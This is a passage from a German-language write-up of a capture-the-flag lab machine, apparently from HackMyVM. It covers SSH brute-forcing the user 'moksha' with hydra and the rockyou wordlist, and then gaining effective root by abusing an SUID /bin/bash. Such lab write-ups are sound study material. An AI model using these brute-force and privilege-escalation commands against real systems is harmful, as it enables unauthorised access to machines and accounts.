 **Wichtigste Erkenntnisse aus Phase 1:** Der Benutzername `moksha` und der Name `enlightenment` aus der `robots.txt`.

---

## Phase 2: Initial Access (SSH Brute-Force)

Basierend auf dem in Phase 1 identifizierten Benutzernamen `moksha` wurde ein Brute-Force-Angriff auf den SSH-Dienst (Port 22) durchgeführt.

*   **Tool:** `hydra`
*   **Befehl:**
    ```bash
    hydra -l moksha -P /usr/share/wordlists/rockyou.txt ssh://hannah.hmv:22 -t 64
    ```
*   **Ergebnis:** Das Passwort `hannah` für den Benutzer `moksha` wurde erfolgreich gefunden.
*   **Zugriff:**
    ```bash
    ssh moksha@hannah.hmv 
    # Passwort: hannah
    ```
Der erfolgreiche Login gewährte eine Benutzershell als `moksha`.

---

## Phase 3: Privilege Escalation (SUID Bash mit Trigger-Datei)

Nach dem Erhalt des initialen Zugriffs wurde nach Wegen zur Eskalation von Privilegien gesucht.

1.  **Hinweis aus `robots.txt`:** Die Datei `/robots.txt` enthielt den Eintrag `Disallow: /enlightenment`.

2.  **Entdeckung der SUID-Fehlkonfiguration:**
    Eine Überprüfung der SUID-gesetzten Dateien zeigte keine ungewöhnlichen Einträge, jedoch wurde später festgestellt, dass `/bin/bash` das SUID-Bit gesetzt hatte:
    ```bash
    moksha@hannah:/tmp$ ls -la /bin/bash
    -rwsr-xr-x 1 root root 1234376 mar 27  2022 /bin/bash
    ```

3.  **Die Trigger-Datei:**
    Es stellte sich heraus, dass die SUID-Bash-Ausnutzung von der Existenz einer spezifischen Datei im `/tmp`-Verzeichnis abhing.
    *   Im `/tmp`-Verzeichnis wurde eine leere Datei namens `enlIghtenment` (mit abweichender Groß-/Kleinschreibung) gefunden.
    *   Inspiriert durch den `robots.txt`-Eintrag wurde die korrekte Trigger-Datei erstellt:
      ```bash
      moksha@hannah:/tmp$ touch enlightenment
      ```

4.  **Ausnutzung:**
    Nachdem die Datei `/tmp/enlightenment` erstellt wurde, konnte die SUID-Bash zur Privilegieneskalation genutzt werden:
    ```bash
    moksha@hannah:/tmp$ /bin/bash -p
    bash-5.1# id
    uid=1000(moksha) gid=1000(moksha) euid=0(root) grupos=1000(moksha),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
    ```
Dies gewährte eine Shell mit effektiven Root-Rechten (`euid=0(root)`).

---